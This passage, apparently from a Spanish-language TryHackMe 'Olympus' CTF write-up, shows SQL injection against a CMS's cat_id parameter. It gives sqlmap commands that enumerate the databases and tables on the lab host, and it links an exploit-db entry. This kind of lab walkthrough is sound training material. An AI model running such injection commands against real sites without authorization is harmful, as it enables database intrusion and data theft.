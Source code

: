 ```console
```

El exploit nos cuenta que el CMS es vulnerable a SQLi y nos muestra el payload que podemos utilizar atacando al parametro GET <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">cat_id</code>&nbsp;&nbsp;de la URL.

Una opción es seguir el método de edición de URL que nos propone el exploit, otra a mi parecer más práctica y rápida: utilizar **sqlmap**.

> **Nota:** a partir de la información recopilada hasta aquí se nos presentan diversas vías para continuar avanzando. En nuestro caso, y en aras de la brevedad, solo nos centraremos en una. Otra opción con un recorrido similar, vinculada al input de búsqueda y la página <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">/search.php</code>&nbsp;&nbsp;podéis consultarla [aquí](https://www.exploit-db.com/exploits/48734).

## Explotación

Vamos a utilizar **sqlmap** para que se encargue de la SQLi. Para ello ejecutamos:

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' --dbs
```

Significado de las flags:

* `-u`&nbsp;: la URL target.
* `-p`&nbsp;: el parámetro que queremos atacar.
* `--dbs`&nbsp;: le pedimos que nos devuelva un listado de las Bases de Datos que encuentre.

Le damos amor y nos devuelve lo siguiente:

```
[...]
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
[...]
```

Candidata al Oscar la db *olympus*, así que a por sus tablas.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus --tables
```

Significado de las flags:

* `-D`&nbsp;: el nombre de la DB que queremos escanear.
* `--tables`&nbsp;: le pedimos que nos devuelva un listado de las tablas que encuentre.

```
[...]
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
[...]
```
